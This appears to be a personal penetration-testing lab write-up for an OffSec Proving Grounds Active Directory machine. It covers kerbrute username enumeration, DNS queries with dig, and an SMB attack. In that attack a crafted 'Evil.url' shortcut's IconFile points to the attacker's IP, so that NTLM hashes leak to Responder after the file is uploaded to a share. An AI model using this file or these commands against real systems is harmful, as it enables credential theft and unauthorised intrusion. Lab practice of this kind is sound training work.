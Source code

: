 ```
~/Tools/AD-Enumeration/kerbrute/dist/kerbrute_linux_arm64 userenum --dc 192.168.120.172 -d vault.offsec /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

![[PG/Active Directory/attachments/Pasted image 20250708001159.png]]

# DNS

Ref - https://hacktricks.boitatech.com.br/pentesting/pentesting-dns

Looking for TXT records
```
dig TXT @192.168.120.172 vault.offsec
```

Actually found another virtual host 

```
hostmaster.vault.offsec
```

![[PG/Active Directory/attachments/Pasted image 20250708001751.png]]

```
dig ANY @192.168.120.172 vault.offsec
```
![[PG/Active Directory/attachments/Pasted image 20250708001919.png]]
- add hostmaster.vault.offsec to /etc/hosts

# Back to SMB 

Exploiting the SMB Put file share functionality by creating malicious icon file that will call back to our machines and leak NTLM creds.. we'll use responder to catch the NTLM hash.

Paste the below code into a file called ‘Evil.url’

```
[InternetShortcut]
URL=Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\192.168.45.152\%USERNAME%.icon
IconIndex=1
```

Start responder 

![[PG/Active Directory/attachments/Pasted image 20250708003110.png]]

Log back in with smbclient 

```
smbclient -U '.' //192.168.120.172/DocumentsShare
```

Put evil.url on the share and check responder 
